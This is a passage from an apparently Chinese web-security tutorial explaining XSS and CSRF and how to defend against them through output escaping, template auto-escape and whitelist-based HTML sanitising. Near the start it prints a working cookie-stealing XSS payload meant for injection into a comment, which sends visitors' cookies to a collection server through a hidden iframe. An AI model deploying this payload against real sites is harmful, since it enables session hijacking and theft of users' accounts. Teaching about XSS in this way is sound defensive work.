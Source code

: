  然后在某一个页面的评论中注入这段代码：




```javascript
// 用 <script type="text/javascript"></script> 包起来放在评论中
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);

```


 于是每个访问到含有该评论的页面的用户都会遇到麻烦——他们不知道背后正悄悄的发起了一个请求，是他们所看不到的。而这个请求，会把包含了他们的帐号和其他隐私的信息发送到收集服务器上。

我们知道 AJAX 技术所使用的 XMLHttpRequest 对象都被浏览器做了限制，只能访问当前域名下的 URL，所谓不能 “跨域” 问题。这种做法的初衷也是防范 XSS，多多少少都起了一些作用，但不是总是有用，正如上面的注入代码，用 iframe 也一样可以达到相同的目的。甚至在愿意的情况下，我还能用 iframe 发起 POST 请求。当然，现在一些浏览器能够很智能地分析出部分 XSS 并予以拦截，例如新版的 Firefox、Chrome 都能这么做。但拦截不总是能成功，何况这个世界上还有大量根本不知道什么是浏览器的用户在用着可怕的 IE6。从原则上将，我们也不应该把事关安全性的责任推脱给浏览器，所以防止 XSS 的根本之道还是过滤用户输入。用户输入总是不可信任的，这点对于 Web 开发者应该是常识。

正如上文所说，如果我们不需要用户输入 HTML 而只想让他们输入纯文本，那么把所有用户输入进行 HTML 转义输出是个不错的做法。似乎很多 Web 开发框架、模版引擎的开发者也发现了这一点，Django 内置模版和 Jinja2 模版总是默认转义输出变量的。如果没有使用它们，我们自己也可以这么做。PHP 可以用 htmlspecialchars 函数，Python 可以导入 cgi 模块用其中的 cgi.escape 函数。如果使用了某款模版引擎，那么其必自带了方便快捷的转义方式。

真正麻烦的是，在一些场合我们要允许用户输入 HTML，又要过滤其中的脚本。Tidy 等 HTML 清理库可以帮忙，但前提是我们小心地使用。仅仅粗暴地去掉 script 标签是没有用的，任何一个合法 HTML 标签都可以添加 onclick 一类的事件属性来执行 JavaScript。对于复杂的情况，我个人更倾向于使用简单的方法处理，简单的方法就是白名单重新整理。用户输入的 HTML 可能拥有很复杂的结构，但我们并不将这些数据直接存入数据库，而是使用 HTML 解析库遍历节点，获取其中数据（之所以不使用 XML 解析库是因为 HTML 要求有较强的容错性）。然后根据用户原有的标签属性，重新构建 HTML 元素树。构建的过程中，所有的标签、属性都只从白名单中拿取。这样可以确保万无一失——如果用户的某种复杂输入不能为解析器所识别（前面说了 HTML 不同于 XML，要求有很强的容错性），那么它不会成为漏网之鱼，因为白名单重新整理的策略会直接丢弃掉这些未能识别的部分。最后获得的新 HTML 元素树，我们可以拍胸脯保证——所有的标签、属性都来自白名单，一定不会遗漏。

现在看来，大多数 Web 开发者都了解 XSS 并知道如何防范，往往大型的 XSS 攻击（包括前段时间新浪微博的 XSS 注入）都是由于疏漏。我个人建议在使用模版引擎的 Web 项目中，开启（或不要关闭）类似 Django Template、Jinja2 中 “默认转义”（Auto Escape）的功能。在不需要转义的场合，我们可以用类似 的方式取消转义。这种白名单式的做法，有助于降低我们由于疏漏留下 XSS 漏洞的风险。

另外一个风险集中区域，是富 AJAX 类应用（例如豆瓣网的阿尔法城）。这类应用的风险并不集中在 HTTP 的静态响应内容，所以不是开启模版自动转义能就能一劳永逸的。再加上这类应用往往需要跨域，开发者不得不自己打开危险的大门。这种情况下，站点的安全非常 依赖开发者的细心和应用上线前有效的测试。现在亦有不少开源的 XSS 漏洞测试软件包（似乎有篇文章提到豆瓣网的开发也使用自动化 XSS 测试），但我都没试用过，故不予评价。不管怎么说，我认为从用户输入的地方把好关总是成本最低而又最有效的做法。

### CSRF：冒充用户之手

起初我一直弄不清楚 CSRF 究竟和 XSS 有什么区别，后来才明白 CSRF 和 XSS 根本是两个不同维度上的分类。XSS 是实现 CSRF 的诸多途径中的一条，但绝对不是唯一的一条。一般习惯上把通过 XSS 来实现的 CSRF 称为 XSRF。

CSRF 的全称是 “跨站请求伪造”，而 XSS 的全称是 “跨站脚本”。看起来有点相似，它们都是属于跨站攻击——不攻击服务器端而攻击正常访问网站的用户，但前面说了，它们的攻击类型是不同维度上的分 类。CSRF 顾名思义，是伪造请求，冒充用户在站内的正常操作。我们知道，绝大多数网站是通过 cookie 等方式辨识用户身份（包括使用服务器端 Session 的网站，因为 Session ID 也是大多保存在 cookie 里面的），再予以授权的。所以要伪造用户的正常操作，最好的方法是通过 XSS 或链接欺骗等途径，让用户在本机（即拥有身份 cookie 的浏览器端）发起用户所不知道的请求。
